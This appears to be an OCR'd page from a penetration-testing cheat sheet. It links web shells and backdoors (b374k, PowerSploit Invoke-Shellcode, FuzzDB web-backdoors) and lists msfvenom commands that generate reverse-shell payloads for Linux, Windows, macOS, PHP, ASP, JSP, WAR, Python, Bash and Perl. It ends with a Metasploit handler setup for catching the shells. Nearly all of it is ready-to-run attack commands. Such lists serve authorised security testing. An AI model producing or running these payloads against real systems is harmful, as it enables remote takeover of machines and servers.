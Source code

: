 - PHP powered web browser Shell b374k with file upload etc.

[*https://github.com/b374k/b374k*](https://github.com/b374k/b374k)

- Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shellhttps://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1
- Web Backdoors from Fuzzdb (https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors
- Creating Meterpreter Shells with MSFVenom - http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/

*Linux*
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f elf > shell.elf
*Windows*
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe
*Mac*
msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f macho > shell.macho
**Web Payloads**
*PHP*
msfvenom -p php/meterpreter_reverse_tcp LHOST= LPORT= -f raw > shell.php

cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

*ASP*
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp
*JSP*
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp
*WAR*
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war
**Scripting Payloads**
*Python*
msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py
*Bash*
msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh
*Perl*
msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl
**Shellcode**

For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

*Linux Based Shellcode*
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f
*Windows Based Shellcode*
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f
*Mac Based Shellcode*
msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f

**Handlers**Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

use exploit/multi/handler
set PAYLOAD
set LHOST
set LPORT
set ExitOnSession false
exploit -j -z
